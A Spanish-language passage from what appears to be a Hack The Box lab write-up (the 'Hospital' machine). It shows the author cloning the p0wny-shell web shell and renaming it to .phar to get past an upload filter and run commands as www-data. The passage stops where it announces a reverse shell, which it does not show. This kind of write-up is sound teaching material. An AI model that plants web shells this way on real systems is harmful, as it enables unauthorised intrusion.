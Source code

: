 >En el software, un archivo PHAR es un formato de paquete que permite la distribución de aplicaciones y bibliotecas al agrupar muchos archivos de código PHP y otros recursos en un solo archivo.

## Shell as www-data

- Ahora lo que vamos hacer es subir lo siguiente <https://github.com/flozz/p0wny-shell> pero lo pondremos en `.phar` para que pueda interpretarlo y así estar mas cómodos.

```bash
➜  content git clone https://github.com/flozz/p0wny-shell
Cloning into 'p0wny-shell'...
remote: Enumerating objects: 215, done.
remote: Counting objects: 100% (137/137), done.
remote: Compressing objects: 100% (54/54), done.
remote: Total 215 (delta 94), reused 110 (delta 82), pack-reused 78
Receiving objects: 100% (215/215), 117.41 KiB | 626.00 KiB/s, done.
Resolving deltas: 100% (124/124), done.
➜  content cd p0wny-shell
➜  p0wny-shell git:(master) ls
Dockerfile  LICENSE  README.md  RELEASE.rst  screenshot.png  shell.php
➜  p0wny-shell git:(master) mv shell.php shell.phar
```

- Después de subir el `.phar` como ya sabemos el nombre y la ruta donde guarda los archivos ya podemos ejecutar comandos.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/hospital/9.png">
</p>

- Ahora nos vamos enviar una `reverse shell`.
